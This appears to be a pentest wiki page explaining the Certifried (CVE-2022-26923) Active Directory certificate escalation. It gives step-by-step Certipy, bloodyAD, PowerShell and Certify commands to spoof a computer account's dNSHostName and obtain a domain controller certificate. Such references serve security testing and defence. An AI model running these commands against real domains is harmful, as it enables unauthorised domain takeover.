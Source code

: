 ```yaml
---
title: CVE-2022–26923
authors: 'CravateRouge, ShutdownRepo, sckdev'
category: ad
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name` and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping).

## Practice

### Detecting unpatched targets

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

::: tabs

=== UNIX-like

This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'
```


If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

> [!WARNING]
> Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.

=== Windows

_At the time of writing this recipe (June 2022), no Windows alternative has been found._

:::


### Conducting the attack

#### Creating a computer account

The first step of the attack consists in creating a computer account ([machineaccountquota.md](../builtins/machineaccountquota), [#create-a-computer-account](../builtins/machineaccountquota#create-a-computer-account)), or have the write permission to the `dNSHostName` and `servicePrincipalName` attributes of another.

#### `dNSHostName` and `servicePrincipalName` modification

The second step is conducted by removing the SPNs that reflect the `dNSHostName` value, and then modifying the `dNSHostName` to the name of the computer account to impersonate.

::: tabs

=== UNIX-like

The [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python) tool can be used on UNIX-like systems to operated these changes.

```bash
# Clearing the SPNs
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

# Setting the dNSHostName value to the name of a computer account to impersonate
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

# Verifying the dNSHostName value and SPN entries
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname
```


[Certipy](https://github.com/ly4k/Certipy) tool can also add a machine account and amend the `dNSHostName` property with the following command liner.


```bash
# Adding a computer account and setting the dNSHostName to impersonate
certipy account create -u "$USER"@"$DOMAIN" -p "$PASSWORD" -user "$COMPUTER_NAME" -pass "$COMPUTER_PASS" -dns "$DC_NAME.$DOMAIN"

```

> [!TIP]
> The Domain Components (DC) are the different parts of the domain name (`DC=domain,DC=local` for `domain.local`, or `DC=sub,DC=domain,DC=local` for `sub.domain.local`).

=== Windows

The [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools can be used on Windows systems to operate these changes.

```bash
# Clearing the SPNs
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Setting the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```

:::


#### Obtaining a certificate

The third and last step consists in getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

::: tabs

=== UNIX-like

[Certipy](https://github.com/ly4k/Certipy) (Python) can be used to request the certificate from UNIX-like systems.


```bash
certipy req -u 'compter$'@"$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Machine'

```


The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

=== Windows

[Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) (C#) can be used to request the certificate from Windows systems.

```powershell
Certify.exe request /ca:"domain\ca" /template:"Machine"
```


The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.

:::


## Resources

[https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)

[https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

[https://tryhackme.com/room/cve202226923](https://tryhackme.com/room/cve202226923)
